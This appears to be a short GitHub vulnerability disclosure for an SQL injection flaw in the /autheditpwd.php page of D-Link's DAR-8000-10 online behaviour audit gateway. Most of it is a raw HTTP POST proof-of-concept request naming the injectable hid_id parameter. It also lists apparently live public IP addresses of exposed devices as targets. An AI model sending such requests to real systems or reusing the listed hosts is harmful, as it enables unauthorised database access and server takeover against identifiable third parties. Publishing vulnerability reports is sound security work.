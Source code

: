 
The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has an SQL injection vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.


official： http://www.dlink.com.cn/

version:DAR-8000-10

Vulnerability Path ：/autheditpwd.php
https://59.60.19.174:8443/
<img width="723" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/7a5d33a9-90c1-4688-9877-7fa9bf658ef8">
poc：
```
POST /autheditpwd.php? HTTP/1.1
Host: 58.18.133.60:8443
Cookie: PHPSESSID=8ad3e9e30c1d494aba55072f78549c04
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://58.18.133.60:8443
Referer: https://58.18.133.60:8443/autheditpwd.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

oldpwd=1&pwd=1&confirmpwd=1&mode=edit&hid_id=

```
<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/2aabdb7a-9880-42f0-8bc2-42e7d8cfcf50">


